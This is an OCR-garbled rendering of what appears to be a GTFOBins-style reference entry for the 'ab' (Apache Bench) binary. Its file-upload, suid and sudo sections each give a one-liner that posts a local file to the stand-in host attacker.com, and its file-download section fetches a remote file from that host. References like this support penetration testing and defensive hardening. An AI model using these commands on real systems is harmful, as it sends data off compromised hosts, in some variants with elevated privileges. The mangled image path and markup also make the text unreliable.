##functions:
  #file-upload:
     ###description Upload local file via HTTP POST request.
      code 
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -p $LFILE $URL
  ###file-download
     description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: 
          URL=http://attacker.com/file_to_download
          ab -v2 $URL
  ###suid
     description: Upload local file via HTTP POST request.
      code: 
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab -p $LFILE $URL
  ###sudo
     description: Upload local file via HTTP POST request.
      code: 
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab -p $LFILE $URL
